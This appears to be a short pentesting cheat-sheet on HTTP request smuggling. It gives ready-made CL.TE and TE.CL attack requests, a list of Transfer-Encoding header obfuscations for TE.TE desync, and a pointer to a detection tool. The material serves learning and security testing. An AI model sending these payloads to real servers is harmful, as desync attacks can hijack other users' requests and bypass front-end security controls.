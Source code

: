 ### CL.TE

	POST / HTTP/1.1
	Host: vulnerable-website.com
	Content-Length: 13
	Transfer-Encoding: chunked

	0

	SMUGGLED

The first server uses the `content-length` header of `13`, and the second server uses the `transfer-encoding` header so it it will place boundary at `0`. This way the second server will start the next request by `SMUGGLED`.

### TE.CL

	POST / HTTP/1.1
	Host: vulnerable-website.com
	Content-Length: 3
	Transfer-Encoding: chunked

	8
	SMUGGLED
	0

The first server uses the `transfer-encoding` header. The second server will use the `content-length` of 3 and will place the boundary at `8` in the request. Then it will start the next request at `SMUGGLED`.

### TE.TE

Both servers use the `transfer-encoding` method so it has to be obfuscated to one of these server.

	Transfer-Encoding: xchunked

	Transfer-Encoding : chunked

	Transfer-Encoding: chunked
	Transfer-Encoding: x

	Transfer-Encoding:[tab]chunked

	[space]Transfer-Encoding: chunked

	X: X[\n]Transfer-Encoding: chunked

	Transfer-Encoding
	: chunked

## HTTP Smuggling Detection
https://github.com/defparam/smuggler

### Automatic Recon
We can use [smuggler](https://github.com/defparam/smuggler) to automaticaly detect `http smuggling` inside webapps.
Here is an [example](https://medium.com/@ricardoiramar/the-powerful-http-request-smuggling-af208fafa142) of methodology.
